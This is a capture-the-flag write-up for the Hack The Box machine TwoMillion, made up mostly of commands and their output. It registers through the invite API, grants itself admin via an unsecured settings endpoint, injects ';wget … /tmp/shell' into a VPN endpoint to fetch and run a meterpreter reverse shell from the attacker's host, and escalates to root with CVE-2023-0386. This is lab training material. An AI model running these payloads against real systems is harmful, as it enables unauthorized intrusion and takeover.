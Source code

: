 # Target
| Category          | Details                                                      |
|-------------------|--------------------------------------------------------------|
| 📝 **Name**       | [TwoMillion](https://app.hackthebox.com/machines/TwoMillion) |  
| 🏷 **Type**       | HTB Machine                                                  |
| 🖥 **OS**         | Linux                                                        |
| 🎯 **Difficulty** | Easy                                                         |
| 📁 **Tags**       | REST API, Metasploit, CVE-2023-0386                          |

# Scan
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

# Attack path
1. [Generate invitation code to register new user](#generate-invitation-code-to-register-new-user)
2. [Gain `admin` privileges using unsecured REST endpoint](#gain-admin-privileges-using-unsecured-rest-endpoint)
3. [Gain initial foothold using command injection in parameter of VPN generation REST endpoint](#gain-initial-foothold-using-command-injection-in-parameter-of-vpn-generation-rest-endpoint)
4. [Escalate to `root` user using (CVE-2023-0386)](#escalate-to-root-user-using-cve-2023-0386)

### Generate invitation code to register new user

#### Add `2million.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ echo "$TARGET 2million.htb" | sudo tee -a /etc/hosts
10.129.129.75 2million.htb
```

#### Discover REST API endpoint for generating invitation code
`http://2million.htb/api/v1/invite/verify` discovered in Burp.
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ feroxbuster --url http://2million.htb/api/v1/invite/ -w /usr/share/wordlists/dirb/big.txt -x php
<SNIP>
405      GET        0l        0w        0c http://2million.htb/api/v1/invite/generate
405      GET        0l        0w        0c http://2million.htb/api/v1/invite/verify
```

#### Generate invitation code using discovered endpoint and use to register and login
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ NAME=$RANDOM$RANDOM && \
CODE=$(curl -s -X POST http://2million.htb/api/v1/invite/generate | jq -r .data.code | base64 -d) && \
curl http://2million.htb/api/v1/user/register -d "code=$CODE&username=$NAME&email=$NAME@server.com&password=pass&password_confirmation=pass" && \
curl -c cookies.txt http://2million.htb/api/v1/user/login -d "email=$NAME@server.com&password=pass"
```

### Gain `admin` privileges using unsecured REST endpoint

#### Discover REST HTTP endpoints using `GET /api/v1`
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ curl -s -b cookies.txt http://2million.htb/api/v1 | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

#### Verify that user does not have `admin` role
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ curl -b cookies.txt http://2million.htb/api/v1/admin/auth
{"message":false}
```

#### Upgrade user to `admin` using unsecured `/api/v1/admin/settings/update` endpoint
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ curl -s -b cookies.txt -X PUT http://2million.htb/api/v1/admin/settings/update -H 'Content-type: application/json' -d "{\"email\":\"$NAME@server.com\",\"is_admin\":1}" -o /dev/null
```

#### Verify that user does have `admin` role
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ curl -b cookies.txt http://2million.htb/api/v1/admin/auth
{"message":true}
```

### Gain initial foothold using command injection in parameter of VPN generation REST endpoint

#### Generate `linux/x64/meterpreter/reverse_tcp` reverse shell and expose is over HTTP
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

#### Start `msfconsole` with `exploit/multi/handler`
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
[*] Starting persistent handler(s)...
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.16.30:4444 
```

#### Inject reverse shell spawn command into `username` of `/api/v1/admin/vpn/generate` endpoint
```
┌──(magicrc㉿perun)-[~/attack/HTB TwoMillion]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
curl -b cookies.txt http://2million.htb/api/v1/admin/vpn/generate -H "Content-type: application/json" -d "{\"username\":\";wget -P /tmp $LHOST:8000/shell;chmod +x /tmp/shell; /tmp/shell\"}"
```

#### Confirm foothold gained
```
[*] Sending stage (3090404 bytes) to 10.129.129.75
[*] Meterpreter session 1 opened (10.10.16.30:4444 -> 10.129.129.75:42850) at 2025-09-10 18:10:08 +0200

meterpreter > getuid
Server username: www-data
```

### Escalate to `root` user using ([CVE-2023-0386](https://nvd.nist.gov/vuln/detail/cve-2023-0386))

#### Use `exploit/linux/local/cve_2023_0386_overlayfs_priv_esc` module to exploit CVE-2023-0386
Vulnerability discovered by `post/multi/recon/local_exploit_suggester`.
```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter_reverse_tcp
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > set SESSION 1
SESSION => 1
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > set LHOST tun0
LHOST => tun0
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > set LPORT 5555
LPORT => 5555
msf exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run
[*] Started reverse TCP handler on 10.10.16.30:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[-] Failed to open file: /proc/sys/kernel/unprivileged_userns_clone: core_channel_open: Operation failed: 1
[+] The target appears to be vulnerable. Linux kernel version found: 5.15.70
[*] Writing '/tmp/.DMo6ixaP/.GqceBxS' (1121480 bytes) ...
[*] Launching exploit...
[+] Deleted /tmp/.DMo6ixaP
[*] Meterpreter session 2 opened (10.10.16.30:5555 -> 10.129.129.75:41458) at 2025-09-10 18:12:01 +0200
meterpreter > getuid
Server username: root
```
      